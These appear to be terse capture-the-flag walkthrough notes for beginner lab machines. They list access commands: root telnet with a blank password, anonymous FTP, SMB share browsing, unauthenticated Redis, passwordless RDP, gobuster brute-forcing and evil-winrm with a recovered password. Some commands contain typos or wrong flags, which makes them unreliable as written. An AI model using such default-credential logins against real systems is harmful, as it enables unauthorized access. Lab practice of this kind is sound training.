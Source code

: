 # TIER 0

### Meow  
telnet as "root", blank password

### Fawn
ftp as anonymous, get flag.txt  

### Dancing  
smbclient -L {IP-address}  
smbclient \\\\{IP-address}\\WorkShares  
ls; cd ..; cd James.P; get flag.txt  

### Redeemer  
redis-cli -h {IP-address}
info  
keys *  
get Flag  

### Explosion
RDP as Administrator, no password  
xfreerdp /v:Administrator /cert:ignore /v:{IP-addess}  

### Preignition
gobuster -x php {IP-address}
http://{IP-address}/admini.php

# TIER 1

###  
sudo get install evil-winrm  
evit-winrm -u Administrator -p badminton -i {IP-address}  

